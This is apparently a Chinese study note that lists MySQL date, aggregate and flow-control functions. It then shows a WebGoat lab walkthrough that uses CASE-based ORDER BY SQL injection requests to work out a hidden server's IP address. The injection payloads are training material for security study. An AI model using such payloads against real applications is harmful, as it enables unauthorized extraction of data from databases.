 ```

### MySQL 日期和时间函数
函数名称	作 用
- CURDATE 和 CURRENT_DATE	两个函数作用相同，返回当前系统的日期值
- CURTIME 和 CURRENT_TIME	两个函数作用相同，返回当前系统的时间值
- NOW 和  SYSDATE	两个函数作用相同，返回当前系统的日期和时间值
- UNIX_TIMESTAMP	获取UNIX时间戳函数，返回一个以 UNIX 时间戳为基础的无符号整数
- FROM_UNIXTIME	将 UNIX 时间戳转换为时间格式，与UNIX_TIMESTAMP互为反函数
- MONTH	获取指定日期中的月份
- MONTHNAME	获取指定日期中的月份英文名称
- DAYNAME	获取指定曰期对应的星期几的英文名称
- DAYOFWEEK	获取指定日期对应的一周的索引位置值
- WEEK	获取指定日期是一年中的第几周，返回值的范围是否为 0〜52 或 1〜53
- DAYOFYEAR	获取指定曰期是一年中的第几天，返回值范围是1~366
- DAYOFMONTH	获取指定日期是一个月中是第几天，返回值范围是1~31
- YEAR	获取年份，返回值范围是 1970〜2069
- TIME_TO_SEC	将时间参数转换为秒数
- SEC_TO_TIME	将秒数转换为时间，与TIME_TO_SEC 互为反函数
- DATE_ADD 和 ADDDATE	两个函数功能相同，都是向日期添加指定的时间间隔
- DATE_SUB 和 SUBDATE	两个函数功能相同，都是向日期减去指定的时间间隔
- ADDTIME	时间加法运算，在原始时间上添加指定的时间
- SUBTIME	时间减法运算，在原始时间上减去指定的时间
- DATEDIFF	获取两个日期之间间隔，返回参数 1 减去参数 2 的值
- DATE_FORMAT	格式化指定的日期，根据参数返回指定格式的值
- WEEKDAY	获取指定日期在一周内的对应的工作日索引


### MySQL 聚合函数
函数名称	作用
- MAX	查询指定列的最大值
- MIN	查询指定列的最小值
- COUNT	统计查询结果的行数
- SUM	求和，返回指定列的总和
- AVG	求平均值，返回指定列数据的平均值

### MySQL 流程控制函数
函数名称	作用
- IF	判断，流程控制
- IFNULL	判断是否为空
- CASE	搜索语句


上面的CASE子句即：```(case where (true) then express1 else express2 end)```

例如：构造fuzz，猜出ip地址的前几位:

```(case ip when '.130.219.202' then hostname else ip end)```

下列语句可执行：
```GET http://10.10.10.128:8080/WebGoat/SqlInjection/servers?column=(case+ip+when+'%d.130.219.202'+then+hostname+else+ip+end) HTTP/1.1```

把其中的hostname改为noname，会发现报错，有报错信息如下：
```...select id, hostname, ip, mac, status, description from servers  where status <> 'out of order' order by (case hostname when 'webgoat-tst' then noname else id end)..```

查看这个语句格式，有助于我们理解查询和构造fuzz。可以尝试下列语句，然后将100.130.219.202中的100建立数字fuzz。

```(case (select ip from servers where hostname='webgoat-prd') when '100.130.219.202' then hostname else id end)```

```GET http://10.10.10.128:8080/WebGoat/SqlInjection/servers?column=(case+(select+ip+from+servers+where+hostname%3d'webgoat-prd')+when+%27100.130.219.202%27+then+hostname+else+id+end) HTTP/1.1```

最后发现ip为104.130.219.202

## mysql 的一些常用操作

```
